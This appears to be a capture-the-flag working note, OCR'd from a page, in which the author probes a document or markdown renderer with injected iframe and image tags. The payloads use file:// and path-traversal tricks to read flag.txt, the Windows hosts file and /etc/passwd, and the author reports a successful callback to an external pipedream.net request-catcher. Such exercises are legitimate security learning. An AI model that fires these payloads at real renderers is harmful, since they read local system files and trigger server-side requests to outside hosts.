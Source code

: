 
**This is worth a try:
**


## <iframe src=file:///C:\\WINDOWS\\System32\\drivers\\etc\\hosts> 





## <iframe src=file:///../flag.txt> 



\<iframe src="file://\.\./flag\.txt"\>

\<iframe src=file:///\.\./flag\.txt\>

\<a href="file://\.\./flag\.txt"\>linkypoo\</a\>

**This wouldn't work as it would try on my system\.\.  But the iframe file:// might\.\.
**
https://28e310ba5999c84c5690cf92aca959b8\.m\.pipedream\.net

**Tried this as a trigger\.\.**

\<iframe src="[https://28e310ba5999c84c5690cf92aca959b8.m.pipedream.net/">	](#https://28e310ba5999c84c5690cf92aca959b8.m.pipedream.net/">	)


**WORKED\.
**


**Okay so lets see what file I can grab, if any\.\.**

\<iframe src="file://\.\./flag\.txt"\>

\<iframe src="file://\.\./\.\./flag\.txt"\>

\<iframe src="fILe://\.\./\.\./flag\.txt"\>

\<iframe src="fILe://\.\./\.\./flag%2Etxt"\>

\<iframe src="fILe://test"\>

\!\[notimage\.png\]\(\.\./\.\./\.\./\.\./\.\./etc/passwd\)

\!\[notimage\.png\]\(\[\.\./flag\.txt\]\(\.\./flag\.txt\)\)
